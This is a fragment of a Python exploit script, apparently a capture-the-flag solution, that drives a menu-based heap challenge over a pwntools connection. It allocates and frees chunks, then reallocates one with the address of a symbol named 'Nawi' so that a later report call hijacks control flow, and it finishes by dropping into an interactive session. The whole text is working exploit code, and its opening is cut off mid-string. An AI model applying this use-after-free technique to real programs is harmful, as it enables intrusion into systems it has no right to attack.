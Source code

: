 ```python
           c
           
           ''')
input()
def add(size, name):
    p.sendlineafter(b'>', b'1')
    p.sendlineafter(b'>', b'1')
    p.sendlineafter(b'>', str(size).encode('utf-8'))
    p.sendafter(b'>', name)
    p.recvuntil(b'> [DEBUG]')

def remove(idx):
    p.sendlineafter(b'>', b'2')
    p.sendlineafter(b'>', str(idx).encode('utf-8'))

def report(idx):
    p.sendlineafter(b'>', b'3')
    p.sendlineafter(b'>', str(idx).encode('utf-8'))

add(0x18, b'a'*8)
add(0x38, b'a'*8)

remove(0)
remove(1)

add(0x18, flat(elf.sym['Nawi']))

report(0) 
p.interactive()
```